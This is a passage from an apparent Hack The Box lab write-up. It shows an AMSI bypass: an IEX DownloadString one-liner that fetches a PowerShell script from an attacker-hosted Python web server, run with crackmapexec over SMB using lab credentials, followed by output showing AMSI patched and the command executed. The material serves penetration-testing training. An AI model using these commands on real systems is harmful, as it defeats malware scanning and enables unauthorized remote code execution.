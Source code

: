 2. To solve this problem, let's create a PowerShell script that downloads and executes `shantanukhande-amsi.ps1`. We will also need to create a Python web server to host our script.

### **Creating and Hosting the PowerShell Script**

```shell-session
al1abb@htb[/htb]$ echo "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.33/shantanukhande-amsi.ps1');" > amsibypass.txt
al1abb@htb[/htb]$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

{% hint style="info" %}
**Note:** Make sure to include the semicolon (;) at the end.
{% endhint %}

From another terminal, let's run our new AMSI bypass payload:

### **Using a PowerShell Custom AMSI Bypass**

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -X '$PSVersionTable' --amsi-bypass amsibypass.txt

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Executed command 
SMB         10.129.204.133  445    MS01             -- AMSI Patch
SMB         10.129.204.133  445    MS01             -- Modified By: Shantanu Khandelwal (@shantanukhande)
SMB         10.129.204.133  445    MS01             -- Original Author: Paul LaArnAc (@am0nsec)
SMB         10.129.204.133  445    MS01             
SMB         10.129.204.133  445    MS01             [+] 64-bits process
SMB         10.129.204.133  445    MS01             [+] AMSI DLL Handle: 140724553187328
SMB         10.129.204.133  445    MS01             [+] DllGetClassObject address: 140724553193616
SMB         10.129.204.133  445    MS01             [+] Targeted address: 140724553200416
SMB         10.129.204.133  445    MS01             
SMB         10.129.204.133  445    MS01             Name                           Value
SMB         10.129.204.133  445    MS01             ----                           -----
SMB         10.129.204.133  445    MS01             PSVersion                      5.1.17763.2268
SMB         10.129.204.133  445    MS01             PSEdition                      Desktop
SMB         10.129.204.133  445    MS01             PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0...}
SMB         10.129.204.133  445    MS01             BuildVersion                   10.0.17763.2268
SMB         10.129.204.133  445    MS01             CLRVersion                     4.0.30319.42000
SMB         10.129.204.133  445    MS01             WSManStackVersion              3.0
SMB         10.129.204.133  445    MS01             PSRemotingProtocolVersion      2.3
SMB         10.129.204.133  445    MS01             SerializationVersion           1.1.0.1
```

***
